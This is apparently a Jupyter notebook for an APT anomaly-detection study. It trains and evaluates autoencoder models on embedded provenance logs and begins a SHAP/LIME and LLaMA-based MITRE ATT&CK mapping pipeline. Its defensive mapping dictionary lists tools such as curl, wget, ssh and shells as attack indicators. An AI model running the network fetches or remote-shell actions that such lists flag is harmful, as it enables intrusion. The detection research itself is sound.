    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9363 | nDCG: 0.3477 (DCG: 1.4793, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.9312 | nDCG: 0.348 (DCG: 1.4806, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9458 | nDCG: 0.3848 (DCG: 1.6373, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.9439 | nDCG: 0.3348 (DCG: 1.4246, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.907 | nDCG: 0.3401 (DCG: 1.4469, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.9294 | nDCG: 0.35 (DCG: 1.4892, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.9282 | nDCG: 0.347 (DCG: 1.4763, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9424 | nDCG: 0.346 (DCG: 1.4721, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9415 | nDCG: 0.3402 (DCG: 1.4473, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9403 | nDCG: 0.3431 (DCG: 1.

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9981 | nDCG: 0.833 (DCG: 17.4415, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.6851 | nDCG: 0.346 (DCG: 7.2452, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.5699 | nDCG: 0.4428 (DCG: 9.2712, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9733 | nDCG: 0.5375 (DCG: 11.2536, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.7111 | nDCG: 0.3519 (DCG: 7.3677, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.7165 | nDCG: 0.3492 (DCG: 7.3113, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.7267 | nDCG: 0.3474 (DCG: 7.2732, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.7068 | nDCG: 0.3467 (DCG: 7.2603, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9966 | nDCG: 0.7933 (DCG: 16.6098, IDCG: 20.9387)
   

In [2]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "uae_large_v1" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] WhereIsAI/UAE-Large-V1 uses 1024 dimensions
INPUT_DIM = 1024 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for UAE_LARGE_V1 on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1562 | PR-AUC: 0.0536
    -> Sparse Done! F1: 0.1765 | PR-AUC: 0.0544
    -> Deep SVDD Done! F1: 0.2222 | PR-AUC: 0.0829
    -> DAE Done! F1: 0.125 | PR-AUC: 0.0463
    -> VAE Done! F1: 0.2069 | PR-AUC: 0.0602
    -> Beta-VAE Done! F1: 0.1429 | PR-AUC: 0.0472
    -> GMVAE Done! F1: 0.1818 | PR-AUC: 0.054
    -> Attention AE Done! F1: 0.1205 | PR-AUC: 0.0502
    -> LSTMAE Done! F1: 0.1205 | PR-AUC: 0.0476
    -> Robust Done! F1: 0.1124 | PR-AUC: 0.0489
    -> Contractive Done! F1: 0.1818 | PR-AUC: 0.0535

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0737 | PR-AUC: 0.0268
    -> Sparse Done! F1: 0.092 | PR-AUC: 0.0326
    -> Deep SVDD Done! F1: 0.1067 | PR-AUC: 0.0385
    -> DAE Done! F1: 0.0988 | PR-AUC: 0.0325
    -> VAE Done! F1: 0.0909 | PR-AUC: 0.0308
    -> Beta-VAE Done! F1: 0.1 | PR-AUC: 0.03

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.7487 | PR-AUC: 0.6793
    -> Sparse Done! F1: 0.0077 | PR-AUC: 0.003
    -> Deep SVDD Done! F1: 0.2205 | PR-AUC: 0.0542
    -> DAE Done! F1: 0.25 | PR-AUC: 0.0929
    -> VAE Done! F1: 0.0092 | PR-AUC: 0.0031
    -> Beta-VAE Done! F1: 0.0096 | PR-AUC: 0.0032
    -> GMVAE Done! F1: 0.0101 | PR-AUC: 0.0034
    -> Attention AE Done! F1: 0.0101 | PR-AUC: 0.0033
    -> LSTMAE Done! F1: 0.6693 | PR-AUC: 0.5565
    -> Robust Done! F1: 0.6489 | PR-AUC: 0.5668
    -> Contractive Done! F1: 0.0099 | PR-AUC: 0.0033

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.728 | PR-AUC: 0.6041
    -> Sparse Done! F1: 0.0634 | PR-AUC: 0.0177
    -> Deep SVDD Done! F1: 0.1308 | PR-AUC: 0.0717
    -> DAE Done! F1: 0.2479 | 

#### XAI Integration and MITRE ATT&CK mapping

In [10]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [UAE-LARGE UPDATE] 
EMBEDDER_NAME = "WhereIsAI/UAE-Large-V1" 
INPUT_DIM = 1024  # CRITICAL: UAE-Large uses 1024-dimensional vectors

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()} in full precision...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        
        # Fits natively in VRAM, no 4-bit config needed
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # UAE-Large is ~335M params, batch size of 4-8 is very comfortable
        batch_size = 4 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            # Prevent token_type_ids indexing errors
            if "token_type_ids" in inputs:
                del inputs["token_type_ids"]

            # Note: Autocast removed to prevent any fp16 NaN crashing with Explainer wrappers
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                
                # [UAE-LARGE POOLING]: Standard CLS Pooling
                embeddings = outputs.last_hidden_state[:, 0, :] 
                
                # Normalize embeddings 
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                
                reconstructed = self.ae_model(embeddings)
                errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Ensure this folder name matches your UAE-Large training output!
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_uae_large_v1", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
